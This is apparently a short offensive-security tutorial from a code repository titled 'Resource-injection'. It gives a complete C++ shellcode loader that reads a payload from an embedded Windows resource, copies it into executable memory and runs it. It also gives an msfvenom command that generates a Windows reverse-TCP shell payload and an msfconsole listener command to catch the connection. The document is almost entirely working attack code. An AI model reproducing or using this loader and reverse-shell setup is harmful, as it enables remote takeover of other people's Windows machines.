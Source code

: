 # Resource-injection

 generate a  shellcode in binary format first and Embedding The Shellcode as a Resource

##### Resource-injection.cpp

```cpp
#include <iostream>
#include <Windows.h>
#include "resource.h"

int main()
{
    // IDR_NOORANET_BIN1 - is the resource ID - which contains ths shellcode
    // NOORANET_BIN is the resource type name we chose earlier when embedding the shell.bin
    HRSRC shellcodeResource = FindResource(NULL, MAKEINTRESOURCE(IDR_NOORANET_BIN1), L"NOORANET_BIN");
    DWORD shellcodeSize = SizeofResource(NULL, shellcodeResource);
    HGLOBAL shellcodeResouceData = LoadResource(NULL, shellcodeResource);

    void *exec = VirtualAlloc(0, shellcodeSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(exec, shellcodeResouceData, shellcodeSize);
    ((void(*)())exec)();

    return  0;
}
```

* `Tip` 
  Right click on the Resource Files in Solution Explorer and select Add > Resource
  Click Import and select the resource you want to include. In my case - it's the shell.bin
  Give resource a resource type name : NOORANET_BIN

### Payload - shell.bin

    msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.46 LPORT=443 > shell.bin

### Listener

```bash
msfconsole -x "use exploits/multi/handler; set lhost 192.168.1.46; set lport 443; set payload windows/meterpreter/reverse_tcp; exploit"
```

